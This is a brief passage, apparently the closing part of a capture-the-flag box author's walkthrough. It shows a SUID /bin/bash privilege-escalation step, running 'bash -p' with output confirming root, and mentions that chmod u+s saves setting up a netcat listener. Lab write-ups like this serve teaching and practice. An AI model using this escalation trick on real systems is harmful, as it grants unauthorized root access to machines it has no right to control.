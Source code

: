 This command will change `/bin/bash` to SUID. This means it run run bash with root privs now. Like so

```bash
/bin/bash -p
id && whoami
uid=1001(gyles) gid=1001(gyles) euid=0(root) egid=0(root) groups=0(root),1001(gyles),1003(editors),1004(admin)
root

```
Now you have full root access on the box! I often use the chmod u+s /bin/bash as it saves me setting up a nc listener on my machine



I really hope you enjoyed my box!
